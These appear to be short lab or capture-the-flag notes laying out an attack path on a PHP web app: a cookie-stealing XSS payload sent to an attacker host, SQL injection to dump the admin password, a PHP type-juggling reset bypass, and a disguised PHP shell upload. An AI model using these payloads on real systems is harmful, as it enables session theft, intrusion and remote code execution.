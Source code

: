 *Attack Path*
1. Authenticate as a user
2. Authenticate as webadmin via SQLi or PHP type juggling
3. Get RCE or a shell.


Comments
------------
Send user cookie back to attacker IP and Port.  Example:
<script>fetch("http://127.0.0.1:8000",{method: "post",mode: "no-cors",body:document.cookie});</script>

Now use browser and session to authenticate as user.
-----------------------------

Products
-------------
SQLi for admin password.
examples:
SELECT * FROM `products` WHERE `product_id` = 1 OR 1=1;
SELECT * FROM `products` WHERE `product_id` = 1 UNION SELECT NULL, `Username`,`Password` ,NULL FROM `users` WHERE `Username` = "webadmin"

------------------------------

Gallery
--------------
upload a php shell and in burp, change the file extension to .jpg
------------------------------

Reset Password
---------------
PHP type juggling
In burp, change old_password=foobar to old_password[]=''
Empty array is evaluated to NULL, which is then evaluated to 0 in php
Now you can change the webadmin password if you did not already have it.
-------------------------------

Admin
------------
Go in and rename the shell you uploaded as an image so that it will execute.
